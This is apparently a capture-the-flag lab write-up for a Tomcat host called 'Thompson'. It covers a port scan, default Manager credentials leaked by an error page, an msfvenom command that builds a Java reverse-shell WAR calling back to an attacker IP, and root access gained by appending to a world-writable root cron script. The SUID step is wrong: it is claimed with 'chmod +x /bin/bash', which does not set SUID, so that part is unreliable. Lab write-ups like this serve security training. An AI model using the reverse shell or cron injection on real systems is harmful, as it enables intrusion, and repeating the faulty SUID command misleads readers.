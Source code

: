 # Thompson

**Hostname:** `ubuntu`

**OS:** `Ubuntu Linux`

**Users:**
```
jack
```

**Credentials:**

*Tomcat Manager:*
```
tomcat:s3cret
```

===============================================================

## Port Scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- OpenSSH 7.2p2
- Apache Jserv (Protocol v1.3)
- Apache Tomcat 8.5.5

===============================================================

## Content Discovery:

### Port 8080:
- Apache Tomcat Manager App:
	- Default credentials exposed via error message

### Machine enumeration:

#### Cron jobs
```
# m h dom mon dow user  command
*  *    * * *   root    cd /home/jack && bash id.sh
```

===============================================================

## Foothold / Privilege Escalation:

### Initial Foothold

I have gained initial access through misconfigured Apache Tomcat instance running on port 8080. It was misconfigured in a way that an error message disclosed the admins default credentials.

![tomcat verbose error message](../pictures/thompson/cred_leak.png)


I used these credentials to login into the Manager App where I can upload my own WAR files.

![tomcat login](../pictures/thompson/manager_login.png)
![tomcat dashboard](../pictures/thompson/manager_dashboard.png)

To get access I used msfvenom to generate a .war file containing my reverse shell payload.
```
msfvenom -p java/shell_reverse_tcp lhost="10.23.113.200" lport="8081" -f war -o shell.war
```
- This command will generate a malicious reverse shell and output it to a WAR file which I uploaded to the server using the Manager App

After uploading I setup a listener on the specified port in my case 8081, and executed the payload by just visiting the site in my case /shell.

![upload shell](../pictures/thompson/upload_shell.png)

![payload execute](../pictures/thompson/execute_payload.png)

By visiting **/shell** the payload executes and I get a connection to my listener.

![shell connection](../pictures/thompson/initial_access.png)

---
### Privilege Escalation:

To elevate my privileges to root I exploited a shell script called id.sh that was set to run as a cron job which I found inside a real user's home directory.

![jack's directory](../pictures/thompson/jack_home.png)

![crontab](../pictures/thompson/crontab.png)

It was exploitable due to the script being available to everyone, and since it would run as the root user, I could just append a reverse shell command or set the SUID bit on the /bin/bash binary.

I added a SUID bit on the /bin/bash binary with the command:

```
echo "chmod +x /bin/bash" >> id.sh
```
After the cron job executes I get a root shell by either of the methods.

![privilege escalation](../pictures/thompson/privesc.png)

![root shell](../pictures/thompson/root.png)

===============================================================

## Journal:
- Check cron jobs and what permissions do I have on the files they are running